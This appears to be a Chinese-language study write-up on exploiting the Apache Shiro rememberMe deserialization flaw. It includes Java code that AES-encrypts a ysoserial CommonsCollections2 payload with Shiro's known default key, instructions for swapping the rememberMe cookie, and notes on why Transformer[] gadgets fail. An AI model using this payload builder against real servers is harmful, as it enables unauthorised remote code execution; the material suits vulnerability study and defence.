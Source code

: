 **注意：**
当密钥不正确或类型转换异常时，Response包含`Set-Cookie: rememberMe=deleteMe`字段
当密钥正确且没有类型转换异常时，返回包不存在`Set-Cookie: rememberMe=deleteMe`字段


### CommonsCollections链
那么我们逆推写出构造payload的代码：
```java
import com.sun.org.apache.xerces.internal.impl.dv.util.Base64;
import org.apache.shiro.crypto.AesCipherService;
import org.apache.shiro.util.ByteSource;
import java.io.*;


public class AESencode {
    public static void main(String[] args) throws Exception {
        String path = "C:\\Users\\bmth\\Desktop\\作业\\CTF学习\\java学习\\反序列化\\cc2";
        byte[] key = Base64.decode("kPH+bIxk5D2deZiIxcaaaA==");
        AesCipherService aes = new AesCipherService();
        ByteSource ciphertext = aes.encrypt(getBytes(path), key);
        System.out.printf(ciphertext.toString());
    }

    public static byte[] getBytes(String path) throws Exception{
        InputStream inputStream = new FileInputStream(path);
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        int n = 0;
        while ((n=inputStream.read())!=-1){
            byteArrayOutputStream.write(n);
        }
        byte[] bytes = byteArrayOutputStream.toByteArray();
        return bytes;
    }
}
```
这里用的是TemplatesImpl加载字节码来进行攻击的，也就是ysoserial的cc2，得到payload后把JSESSIONID删除，修改rememberMe为我们的payload
![](https://img-blog.csdnimg.cn/6dd514a62db34a9e911f5723cc8c1ed8.png)
成功反弹计算器

测试发现如果使用**Transformer[]数组类会报错**：
```
2022-03-06 20:03:51,838 WARN  [org.apache.shiro.mgt.DefaultSecurityManager]: Delegate RememberMeManager instance of type [org.apache.shiro.web.mgt.CookieRememberMeManager] threw an exception during getRememberedPrincipals().
org.apache.shiro.io.SerializationException: Unable to deserialze argument byte array.

Caused by: java.lang.ClassNotFoundException: Unable to load ObjectStreamClass [[Lorg.apache.commons.collections4.Transformer;: static final long serialVersionUID = 4143657982017290149L;]: 
```
`[L`是一个JVM的标记，说明实际上这是一个数组，即`Transformer[]`
这里反序列化使用的是`ClassResolvingObjectInputStream` shiro自带的方法
![](https://img-blog.csdnimg.cn/fad48a6b436f4a56873aa7efd56feca4.png)
这里跟进`ClassResolvingObjectInputStream`方法
![](https://img-blog.csdnimg.cn/befc36ba004d49338e49da1e6c57a55c.png)
发现Shiro重写了 resolveClass 的实现，更换了查找方式
>Shiro resovleClass使用的是ClassLoader.loadClass()而非Class.forName()，而ClassLoader.loadClass不支持装载数组类型的class
